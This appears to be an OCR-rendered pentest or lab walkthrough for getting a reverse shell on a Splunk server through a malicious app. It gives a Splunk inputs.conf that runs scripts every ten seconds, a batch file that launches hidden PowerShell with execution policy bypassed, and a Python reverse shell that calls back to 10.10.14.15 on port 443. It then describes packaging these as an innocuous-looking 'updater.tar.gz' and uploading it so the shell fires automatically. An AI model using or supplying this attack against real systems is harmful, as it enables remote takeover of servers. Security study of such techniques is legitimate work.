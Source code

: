## ⚙️ `inputs.conf` Configuration

```ini
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

## 🖥️ Batch File: `run.bat`

```bat
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

## 🧪 Python Reverse Shell (For Linux Targets)

```python
import sys, socket, os, pty

ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0,1,2)]
pty.spawn("/bin/bash")
```

## 📦 Packaging the App

```bash
tar -cvzf updater.tar.gz splunk_shell/
```

we created a folder of all the files above and zipped it

## 🚀 Upload the App

Go to:

```
https://<splunk-host>:8000/en-US/manager/search/apps/local
```

* Click: `Install app from file`
* Browse and upload `updater.tar.gz`
* App auto-enables, triggering reverse shell
